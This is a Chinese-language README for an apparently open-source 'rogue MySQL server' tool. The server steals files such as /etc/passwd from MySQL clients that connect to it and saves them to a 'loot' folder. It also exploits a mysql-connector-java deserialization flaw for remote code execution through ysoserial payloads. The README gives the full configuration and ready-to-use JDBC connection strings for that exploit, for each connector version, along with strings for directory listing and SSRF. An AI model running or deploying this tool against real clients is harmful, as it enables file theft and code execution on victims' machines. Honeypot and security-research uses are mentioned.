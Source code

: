 # Rogue Mysql Server

[English README](./README_EN.md)

基于 https://github.com/vitessio/vitess 实现的恶意 mysql 服务器, 支持 go, php, python, java, 原生命令行等多种语言下的多种库的 mysql 客户端.  
远离恼人的兼容性问题, 测试过的客户端见下表

| language | library                        | pass |
|----------|--------------------------------|------|
| go       | github.com/go-sql-driver/mysql | ✔️   |
| php      | mysqli, pdo                    | ✔️   |
| python   | pymysql                        | ✔️   |
| java     | mysql-connector-java           | ✔️   |
| native   | 10.4.13-MariaDB                | ✔️   |

觉得好用可以点右上方的 🌟 支持作者

## 功能

* 可以兼容多种 mysql 客户端
* 可以读取二进制文件
* 自动保存文件
* 作为蜜罐使用时, 可选择开启帐号密码验证
* 读取客户端的 ConnAttr, 可能会包含一些客户端的额外信息
* 对于 mysql-connector-java, 在可控链接串的情况下可以利用反序列化漏洞进行 RCE

## 使用

在当前目录下生成配置文件模版, 如果已有配置文件可以跳过这一步
```sh
./rogue_mysql_server -generate
```

运行服务器, 使用刚刚生成的 config.yaml
```sh
./rogue_mysql_server
```

或者手动指定配置路径
```sh
./rogue_mysql_server -config other_config.yaml
```

## 配置文件

示例:
```yaml
host: 0.0.0.0
port: 3306
# 监听的 IP 和端口.

version_string: "10.4.13-MariaDB-log"
# 客户端得到的服务端版本信息.

file_list: ["/etc/passwd", "C:/boot.ini"]
save_path: ./loot
# 需要读取的文件, 注意这个不意味着一次性读取列表中的所有文件 (很多客户端实现不支持这种操作).
# 而是客户端每执行一次语句, 按照列表中的顺序读取一个文件, 并保存到 `save_path` 文件夹中.

always_read: true
# 如果为 true, 那么不管客户端是否标记自己支持 LOAD DATA LOCAL, 都会尝试去读取文件, 否则会根据客户端的标记来决定是否读取, 避免客户端请求不同步.

from_database_name: false
# 如果为 true, 将会从客户端设定中的数据库名称中提取要读取的文件.
# 例如链接串为 `jdbc:mysql://localhost:3306/%2fetc%2fhosts?allowLoadLocalInfile=true`.
# 将会从客户端读取 `/etc/hosts` 而不会遵循 `file_list` 中的设置.

max_file_size: 0
# 读取文件的最大大小 (单位 byte), 超过这个大小的文件内容将会被忽略. 如果 <= 0, 代表没有限制.

auth: false
users:
  - root: root
  - root: password
# 对应是否开启验证, 如果为 `false`, 那么不管输什么密码或者不输入密码都可以登录.
# 如果为 `true`, 则需要帐号密码匹配下面的设置的帐号密码中的一条.

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
# 见 `jdbc 利用相关` 一节
```

## mysql-connector-java 反序列化漏洞利用相关

在版本 >= 8.0.20, >= 5.1.49 中, 此漏洞已经被修复,  
https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b  
https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2

与 mysql-connector-java 反序列化漏洞利用相关的配置如下
```yaml
jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
```
`jdbc_exploit` 代表这个功能开启, 在检测到客户端是 mysql-connector-j 的情况下会自动利用. 利用和读取文件只能同时开启一项, 开启利用会导致无法读取客户端的文件.  
`always_exploit` 代表不检测客户端是否为 mysql-connector-java, 总是开启漏洞利用.  
`ysoserial_command` 生成反序列化 payload 的命令.  

可以使用连接串中的 `connectionAttributes` 选项来指定需要使用的 payload, 这个选项可以指定任意连接属性. 服务器会读取连接属性中 `t` 的值来寻找对应的 payload. 如果未指定, 则默认使用提供的所有 payload 中的第一个.  

例如, 如果使用上述的示例配置:  
在 8.x 版本下要使用 cc7, 连接串为 `jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:cc7&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password`

另外需要注意只支持 `com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor` 的利用方法, 可以参考下表:  

| version  | jdbc connection string                                                                                                                                                                                   |
|----------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password     |
| 6.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password |
| >=5.1.11 | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password    |

另外如果需要读文件, mysql-connector-java 支持使用 `file://` 列目录 (当然其他协议, 例如 http 来 SSRF 也是可以的), 但是需要在 `allowLoadLocalInfile` 为 true 之外, 额外指定 `allowUrlInLocalInfile` 为 true, 详情见[这里](https://github.com/mysql/mysql-connector-j/blob/dd61577595edad45c398af508cf91ad26fc4144f/src/main/protocol-impl/java/com/mysql/cj/protocol/a/NativeProtocol.java#L1877)  
eg.
* 列 `/` 目录, `jdbc:mysql://127.0.0.1:3306/file%3A%2F%2F%2F?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`
* SSRF `http://127.0.0.1:25565`, `jdbc:mysql://127.0.0.1:3306/http%3A%2F%2F127.0.0.1:25565?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`


## Ref

mysql-connector-java 漏洞利用:  
https://github.com/fnmsd/MySQL_Fake_Server

mysql 协议相关:  
https://github.com/mysql/mysql-connector-j  
https://github.com/vitessio/vitess  
https://github.com/src-d/go-mysql-server  
http://scz.617.cn:8/network/202001101612.txt  
